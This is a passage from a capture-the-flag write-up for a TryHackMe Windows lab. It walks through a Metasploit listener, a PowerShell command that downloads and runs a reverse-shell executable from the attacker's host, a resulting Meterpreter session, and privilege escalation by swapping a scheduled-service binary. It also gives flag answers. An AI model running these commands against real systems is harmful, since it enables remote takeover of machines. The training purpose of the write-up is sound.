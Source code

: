 * run the listener
  
```bash
┌──(anir0y㉿kali)-[~/share/thm/room/hackpark]
└─$ msfconsole -q -r msf.rc 
```

* run the webserver (linux)

```bash
# Change dir where is your exe file located
sudo python3 -m http.server 80 
#my exe is supershell.exe.exe
```

* download shell on target

```powershell
# download 
c:\Windows\Temp>powershell -c "Invoke-WebRequest -Uri 'http://10.17.4.40/supershell.exe' -OutFile 'shell.exe'"
#execute
c:\Windows\Temp>.\shell.exe
```

* Msfconsole 

```zsh
msf6 exploit(multi/handler) > [*] Sending stage (200262 bytes) to 10.10.135.139
msf6 exploit(multi/handler) > [*] Meterpreter session 1 opened (10.17.4.40:1337 -> 10.10.135.139:49301) at 2021-06-19 21:01:05 +0530
```

* get root 

![getroot](https://i.imgur.com/FfBMkJj.png)

upload shell to `C:\Program Files (x86)\SystemScheduler` chage `shell.exe` to `Message.exe` 

### Flag 4.1

**Tip: You can generate the reverse-shell payload using msfvenom, upload it using your current netcat session and execute it manually!**
no ans required

### Flag 4.2

**What is the OS version of this windows machine?**

run sysinfo in meterpreter shell.

![msf](https://i.imgur.com/lUhkQkJ.png)

### Flag 4.3

**What is the name of the abnormal service running?**

``` WScheduler.exe ``` names as `WindowsScheduler`

### Flag 4.4

**What is the name of the binary you're supposed to exploit?**

`Message.exe`

* find the log in `C:\Program Files (x86)\SystemScheduler\Events`
  
```powershell
meterpreter > ls
Listing: C:\Program Files (x86)\SystemScheduler\Events
======================================================
```